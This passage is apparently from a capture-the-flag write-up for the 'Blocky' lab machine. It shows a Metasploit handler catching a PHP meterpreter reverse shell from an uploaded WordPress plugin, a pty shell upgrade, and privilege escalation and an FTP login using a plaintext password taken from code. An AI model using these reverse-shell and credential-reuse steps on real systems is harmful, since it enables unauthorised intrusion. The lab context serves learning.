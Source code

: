 Click on `wetw0rk_maybe.php` and you will see the meterpreter session open on the terminal.

```

[*] Processing wordpress.rc for ERB directives.
resource (wordpress.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (wordpress.rc)> set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
resource (wordpress.rc)> set LHOST 10.10.14.2
LHOST => 10.10.14.2
resource (wordpress.rc)> set LPORT 4444
LPORT => 4444
resource (wordpress.rc)> exploit
[*] Started reverse TCP handler on 10.10.14.2:4444 

[*] Sending stage (39927 bytes) to 10.10.10.37
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.37:58158) at 2024-10-11 00:24:03 -0400
meterpreter > shell
Process 2469 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@Blocky:/var/www/html/wp-content/plugins/malicious$

www-data@Blocky:/var/www/html/wp-content/plugins/malicious$ cat /home/notch/user.txt
<ml/wp-content/plugins/malicious$ cat /home/notch/user.txt                   
cat: /home/notch/user.txt: Permission denied
www-data@Blocky:/var/www/html/wp-content/plugins/malicious$
```

Permission denied when reading the user flag. Ofcourse we are `www-data`. Let's Try to escalate privilege from here to user `notch`.

```
www-data@Blocky:/tmp$ su - notch
su - notch
Password: 8YsqfCTnvxAUeduzjNSXe22

notch@Blocky:~$ id
id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ 
```

From here you can also grab the root flag.

###### `Password from Code works on FTP too`
```
# ftp 10.10.10.37                                                                                               
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:ringbuffer): notch
331 Password required for notch
Password: 
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||38200|)
150 Opening ASCII mode data connection for file list
```